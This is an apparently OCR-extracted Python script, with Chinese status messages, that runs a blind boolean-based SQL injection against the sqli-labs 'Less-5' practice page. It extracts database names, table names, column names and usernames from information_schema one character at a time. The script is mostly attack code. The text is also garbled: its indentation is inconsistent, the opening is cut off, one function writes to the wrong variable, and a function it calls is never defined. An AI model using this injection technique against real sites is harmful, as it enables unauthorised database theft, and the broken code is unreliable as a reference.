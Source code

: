 ```
					time.sleep(3)
				except:
					pass
    		print('所有数据库为：'+databases)
    
def getTables(url,r):
    tables = ''
        for i in range(1,10):
            for j in range(0,5):
            for s in letters:
				ur = url+"ord(substr((select table_name from information_schema.tables limit "+str(j)+",1),"+str(i)+",1))=ascii('"+s+"') where table_schema=database %23"
                print(ur)
                res = r.get(ur)
                try:
                    res = re.search(r'You are in',res.text).group(0)
                    tables +=s
                    time.sleep(3)
                except:
               		 pass
	print('当前数据库的所有数据表为：'+tables)
	
def getColumns(url,r):
    columns = ''
    	for i in range(1,10):
    		for j in range(0,5):
    			for s in letters:
   					 ur = url+"ord(substr((select column_name from information_schema.columns limit "+str(j)+",1),"+str(i)+",1))=ascii('"+s+"') where table_schema=database %23"
   				 print(ur)
                res = r.get(ur)
                try:
                    res = re.search(r'You are in',res.text).group(0)
                    tables +=s
                    time.sleep(3)
                except:
                    pass
    print('当前数据库的所有数据表的所有数据列为：'+columns)
    
    
def getData(url,r):
    data = ''
    for i in range(1,20):
        for j in range(0,20):
            for s in letters:
				ur = url+"ord(substr((select username from users limit "+str(j)+",1),"+str(i)+",1))=ascii('"+s+"')%23"
			print(ur)
            res = r.get(ur)
            try:
                res = re.search(r'You are in',res.text).group(0)
                data +=s
                time.sleep(3)
            except:
				pass				
		print('数据：'+data)
		
		
if __name__ == '__main__':
    letters = string.ascii_letters
    url = "http://192.168.3.6/Less-5/?id=1' and "
    r = requests.Session()
    getDatabase(url,r)
```